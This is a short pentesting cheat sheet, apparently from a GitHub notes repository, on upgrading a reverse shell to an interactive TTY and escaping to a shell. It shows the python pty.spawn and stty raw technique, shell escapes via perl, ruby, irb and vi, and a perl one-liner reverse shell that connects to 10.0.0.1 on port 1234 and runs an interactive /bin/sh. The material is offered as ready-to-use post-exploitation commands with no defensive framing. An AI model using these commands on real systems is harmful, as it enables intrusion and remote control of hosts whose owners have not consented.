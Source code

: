 

# getting TTY
---
## phineas fisher magic

* **In reverse shell**
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
```

* **In Kali**
```
$ stty raw -echo
$ fg
```

* **in reverse shell**
```
$ reset
$ export SHELL=bash;  export TERM=xterm-256color
$ stty rows 38 columns 116
```

## perl
```
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```

or
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## ruby
```
ruby: exec "/bin/sh"
```
## irb
```
exec "/bin/sh"
```

## vi
from within vi
```
:!bash
:set shell=/bin/bash:shell
```
or
```
vi ;/bin/bash
```
